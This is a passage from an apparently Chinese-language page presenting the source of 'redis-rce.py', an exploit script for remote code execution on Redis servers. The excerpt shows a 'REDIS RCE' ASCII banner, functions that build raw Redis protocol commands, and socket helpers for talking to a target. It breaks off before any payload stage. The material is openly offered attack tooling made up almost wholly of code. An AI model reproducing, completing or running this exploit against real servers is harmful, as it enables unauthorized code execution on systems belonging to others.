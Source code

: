 


## 实现

### redis-rce.py

```python

#!/usr/bin/env python
# coding:utf-8
import socket
import os
import sys
import re
from time import sleep
import argparse
from six.moves import input

CLRF = "\r\n"
LOGO = R"""
█▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄       █▄▄▄▄ ▄█▄    ▄███▄   
█  ▄▀ █▀   ▀  █  █  ██   █     ▀▄     █  ▄▀ █▀ ▀▄  █▀   ▀  
█▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄       █▀▀▌  █   ▀  ██▄▄    
█  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀        █  █  █▄  ▄▀ █▄   ▄▀ 
  █   ▀███▀   ███▀   ▐                  █   ▀███▀  ▀███▀   
 ▀                                     ▀                   

"""

def mk_cmd_arr(arr):
    """Create the command line with arr
    """
    cmd = ""
    cmd += "*" + str(len(arr))
    for arg in arr:
        cmd += CLRF + "$" + str(len(arg))
        cmd += CLRF + arg
    cmd += "\r\n"
    return cmd


def mk_cmd(raw_cmd):
    return mk_cmd_arr(raw_cmd.split(" "))


def din(sock, cnt):
    """通过socket接收信息。
    """
    msg = sock.recv(cnt)
    if verbose:
        if len(msg) < 300:
            print("\033[1;34;40m[->]\033[0m {}".format(msg))
        else:
            print("\033[1;34;40m[->]\033[0m {}......{}".format(msg[:80], msg[-80:]))
    if sys.version_info < (3, 0):
        res = re.sub(r'[^\x00-\x7f]', r'', msg)
    else:
        res = re.sub(b'[^\x00-\x7f]', b'', msg)
    return res.decode()


def dout(sock, msg):
    """通过socket发送信息。
```